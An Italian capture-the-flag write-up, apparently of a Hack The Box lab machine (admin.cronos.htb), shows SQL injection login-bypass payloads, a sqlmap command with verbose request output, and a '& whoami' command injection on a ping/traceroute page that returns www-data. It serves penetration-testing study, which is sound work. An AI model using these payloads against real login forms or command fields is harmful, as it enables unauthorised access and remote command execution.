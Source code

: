 ## SQL INJECTION (Manuale)

Proviamo a vedere se è vulnerabile a qualche SQL injection qui abbiao alcuni cheatseet
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

Abbimo due iniezioni che funzionano nel campo username:

"admin' --"
"' or 1=1-- -"

Siamo dentro. 

## SQL INJECTION (Automatico NO OSCP)

Apriamo burp e facciamo una prima richiesta con user e pass random, ce la salviamo in
un file .req 

Utiliziamo questa sintassi di sqlmap

```bash
┌──(root㉿kali)-[/home/kali/tool/sqlmap-dev]
└─# sqlmap  -r login.req -v 4 
```
 
 "-r " serve per dire ad sqlmap di utilizzare un file contente una richiesta HTTP 
 su qui basare le porve di injection 
 "-v 4" server per vedere ogni singola ijnection

``` bash

[02:55:55] [PAYLOAD] admin' ORDER BY 1-- -
[02:55:55] [TRAFFIC OUT] HTTP request [#49]:
POST / HTTP/1.1
Host: admin.cronos.htb
User-agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-language: en-US,en;q=0.5
Accept-encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Origin: http://admin.cronos.htb
Referer: http://admin.cronos.htb/
Cookie: PHPSESSID=9v3dbpgun41d85godbjd56j3a4
Upgrade-Insecure-Requests: 1
Content-length: 55
Connection: close

username=admin%27%20ORDER%20BY%201--%20-&password=admin

got a 302 redirect to 'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n] 
```

Abbiamo un redirect ad "/welcome.php" vuoldire che il payaload della richiesta ha funzionato

Entriamo con il payload " admin' ORDER BY 1-- -" e ci troviamo di fronte una paigna 
che esegue due comandi " traceroute " e " ping " 
Proviamo a vedere se possiamo eseguire altri comandi ovvero una Command Execution " & whoami "
ci dice che siamo uenti " www-data", questo ci suggerisce possiamo eseguire comandi  e che abbiamo FINALMENTE UNA COMMAND EXECUTION
